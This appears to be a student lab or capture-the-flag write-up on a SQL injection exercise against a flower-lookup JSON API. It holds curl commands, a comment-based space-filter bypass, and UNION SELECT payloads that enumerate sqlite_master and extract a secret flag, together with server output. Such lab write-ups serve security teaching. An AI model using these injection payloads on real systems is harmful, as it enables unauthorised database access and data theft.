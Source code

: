 # Challenge 3 (SQL Injection)

### 1.

> Quelle partie du service est vulnérable à une injection SQL ?

The ID field of the JSON request to fetch the flower data.

### 2.

> Le serveur implémente une forme insuffisante de validation des entrées. Expliquer pourquoi c'est insuffisant.

Trying out some requests revealed that at least spaces and quotes where always giving an error.
Though we could see that another error was given when the given ID provoked an SQL exception that wasn't caught the same way as with invalid IDs.

```
❯ curl 'http://sql.slh.cyfr.ch/flowers' -X POST -H 'Content-Type: application/json' --data-raw '{"id":"id "}'
{"error": "Invalid id"}

❯ curl 'http://sql.slh.cyfr.ch/flowers' -X POST -H 'Content-Type: application/json' --data-raw '{"id":"\'1\'"}'
{"error":"Invalid id"}

❯ curl 'http://sql.slh.cyfr.ch/flowers' -X POST -H 'Content-Type: application/json' --data-raw '{"id":"a"}'
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

As such, since the requests allows strings we can give the name of the field since `WHERE id=id` is valid in SQL and we manage to dump all flowers at once!

```
❯ curl 'http://sql.slh.cyfr.ch/flowers' -X POST -H 'Content-Type: application/json' --data-raw '{"id":"id"}'
[[1,"Rose","Red",5],[2,"Sunflower","Yellow",20],[3,"Tulip","Pink",6],[4,"Lily","White",6],[5,"Daisy","White",34]]
```

Though that is not particularly helpful. What is helpful though is that SQL does not require the use of any space or quotes for that matter,
so now we can try to figure out a way to dump the tables, without using any spaces or quotes.

### 3.

> Quel est le flag ? Comment avez-vous procédé pour l’obtenir ?

`SLH25{D0N7_P4r53_5Q1_M4NU411Y}`

We needed to list the tables first, so we were on to finding a union query that would allow us to know where the flag is located,
since we have already figured out it is not in the flowers table through the previous query giving `id=id`.

Using the hint given at question 4, we first tried testing DBMS that are **not** MySQL or MariaDB, the first guess was sqlite.
Why? Because it seemed more reasonable than PostgresQL or Oracle for a small exercise :-)

So, now to have queries without spaces, we can simply replace these using comments, as such with a quick recipe we were able to
quickly find the name of the table and to extract the flag. We knew through the JSON response that we should have 4 columns
in the output of the union query to avoid exceptions. We ran, in order, the following statements with their "anti-filter" version:

```
id union select type,name,sql,4 from sqlite_master
id/**/union/**/select/**/type,name,sql,4/**/from/**/sqlite_master

❯ curl 'http://sql.slh.cyfr.ch/flowers' -X POST -H 'Content-Type: application/json' --data-raw '{"id":"id/**/union/**/select/**/type,name,sql,4/**/from/**/sqlite_master"}' | jq '.[] | select(.[0] == "table")'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   520  100   446  100    74  22785   3780 --:--:-- --:--:-- --:--:-- 27368
[
  "table",
  "flowers",
  "CREATE TABLE flowers (\n            id INTEGER PRIMARY KEY,\n            name TEXT,\n            color TEXT,\n            petals INTEGER\n        )",
  4
]
[
  "table",
  "super_secret_stuff",
  "CREATE TABLE super_secret_stuff (name TEXT PRIMARY KEY, value TEXT)",
  4
]

id union select name,value,3,4 from super_secret_stuff
id/**/union/**/select/**/name,value,3,4/**/from/**/super_secret_stuff/**/

❯ curl 'http://sql.slh.cyfr.ch/flowers' -X POST -H 'Content-Type: application/json' --data-raw '{"id":"0/**/union/**/select/**/name,value,3,4/**/from/**/super_secret_stuff/**/"}'
[["flag","SLH25{D0N7_P4r53_5Q1_M4NU411Y}",3,4]]
```

And here lies the flag!

### 4.

> Quel est le DBMS utilisé ? Auriez-vous procédé différement si le DBMS avait été MySQL ou MariaDB ?

sqlite.

With MySQL or MariaDB, we would have proceeded the same way though enumerating the tables would have required extracting
the data from `information_schema` rather than `sqlite_master`.

